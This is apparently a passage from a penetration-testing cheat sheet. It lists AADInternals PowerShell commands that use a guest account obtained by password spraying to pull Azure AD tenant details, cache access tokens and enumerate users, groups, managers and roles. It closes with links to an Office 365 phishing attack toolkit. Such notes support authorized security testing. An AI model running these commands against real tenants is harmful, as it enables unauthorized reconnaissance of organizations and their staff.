 ### [Recon (Guest)](https://o365blog.com/post/quest_for_guest/)
Use guest account from password spraying

```
# Get tenant details
Get-AADIntTenantDetails

# Prompt for credentials and retrieve & store access token to cache
Get-AADIntAccessTokenForAADGraph -SaveToCache

# Prompt for credentials and save the token to cache
Get-AADIntAccessTokenForAzureCoreManagement -SaveToCache

# List the user's tenants
Get-AADIntAzureTenants
```

Stage 1: If we know the user id or upn of any user of the tenant, we can list all the groups (including teams and roles) the user is member of. As a result, we now know the ids of those groups, and we can retrieve the list of members of those groups.

```
# Invoke the user enumeration
$results = Invoke-AADIntUserEnumerationAsGuest -GroupMembers -Manager -Subordinates -Roles
# List group information
$results.Groups | Select-Object displayName,id,membershiprule,description
$results.Groups | Select-Object displayName,id,members
```
Now we have the list of all external users of the tenant

Stage 2: Now we can retrieve the same information (groups and their members) for each user found at stage 1!
```
# Invoke the user enumeration for the known user including group members
$results = Invoke-AADIntUserEnumerationAsGuest -UserName "user@company.com" -GroupMembers -Manager -Subordinates -Roles
# List group information
$results.Groups | Select-Object displayName,id,membershiprule,description

# Listing the group information reveals another typical configuration. 
There is a dynamic group for all organisation members: this allows guest users to access all users of the tenant

# List role information
$results.Roles | Select-Object id,members
```
#### Phishing - Azure App 

##### Resources

https://github.com/mdsecactivebreach/o365-attack-toolkit

https://www.mdsec.co.uk/2019/07/introducing-the-office-365-attack-toolkit/
